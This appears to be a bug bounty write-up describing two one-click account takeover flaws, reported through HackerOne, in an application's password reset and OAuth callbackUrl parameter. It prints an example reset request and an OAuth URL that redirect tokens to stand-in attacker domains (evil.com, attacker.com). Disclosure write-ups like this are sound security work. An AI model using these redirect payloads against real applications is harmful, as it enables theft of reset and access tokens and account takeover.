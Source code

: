 Hey guys, Today, I'm excited to share an intriguing story about how a **single parameter** in an application led to two account takeover cases and earned me a **four-digit bounty**. The program is a private one on HackerOne, and I was among the first few hackers to get invited. I'll explain two bugs I found here. Both account takeover (**ATO**) cases are one-click exploits, meaning the victim only needed to perform a single interaction.

![Excited GIF](/images/excited.gif)

## Weakness in the Password Reset Functionality

I was testing the password reset functionality of this application and discovered an interesting parameter called `CallbackUrl` from the password reset request.

```http
POST /auth/resetpassword HTTP/2
Host: api.example.com
User-Agent: Mozilla/5.0
Accept: application/json
Content-Type: application/json
Origin: https://app.example.com
Referer: https://app.example.com

{"Email":"victim@example.com","CallbackUrl":"https://evil.com/auth/reset-password"}
```

When a user requests a password reset link, the server sends a request to the specified email with a password reset link that contains a token. However, I discovered that if an attacker changes the request parameter `CallbackUrl` to a domain that they control, the password reset link will be sent like `attacker.domain.com/auth/reset-password?token=token` to the user's email. **This means that the attacker can obtain the password reset token when the user clicks the link and use it to take over the user's account.**

![Password Reset Flow](/images/password-reset-flow.png)

**I reported the issues, and they marked the report as high severity and rewarded me with a $$$$ digit bounty.**

![Happy GIF](/images/happy.gif)

This discovery sparked my curiosity to dig deeper into the platform. I searched the application JavaScript for corresponding parameters and found that the same parameter is used in the **application's OAuth flow**.

## Account Takeover via Misconfigured OpenID

During my testing on the **OAuth** mechanism of the application, I got another security flaw that could potentially lead to One click account takeover. This vulnerability stems from a misconfiguration in the **OpenID** implementation, specifically in the `callbackUrl` parameter used in the authentication flow with various identity providers.

I discovered that an attacker could exploit this misconfiguration by manipulating the `callbackUrl` parameter by redirecting it to an attacker-controlled domain, malicious actors could intercept the authentication process and potentially gain unauthorized access to user accounts.

**For example:**

- Google: `https://api.example.net/openid/google?callbackUrl=https://attacker.com/auth/register`

Initiating the authentication process with the respective provider results in the authentication response being redirected to the **attacker's domain**.

Exploiting this vulnerability allows attackers to intercept authentication responses, potentially obtaining access tokens. The authentication response is redirected to the **attacker-controlled domain** specified in the modified `callbackUrl` parameter.

After reporting the issue, the team responded by explaining that they considered the reported vulnerability as part of the **previous** `callbackUrl` **fix**. They emphasized that their policy only allows for one bounty payment per bug and considered **duplicates** unacceptable. Despite their explanation, I reiterated my findings, emphasizing that the vulnerability persisted specifically in the `callbackUrl` of the Auth0 endpoint. I acknowledged their efforts in resolving the previous bug but urged them to consider this as a separate issue due to its potential risk of account takeover.

![HackerOne Discussion](/images/hackerone-discussion.png)

Following internal discussions, the team ultimately recognized the severity of the vulnerability and awarded me another **$$$$ digit bounty along with an exclusive swag pack** as a token of appreciation for bringing it to their attention.

![Success GIF](/images/success.gif)

**Thanks for taking the time to read through the write-up, and stay tuned for more insights and discoveries in the future**
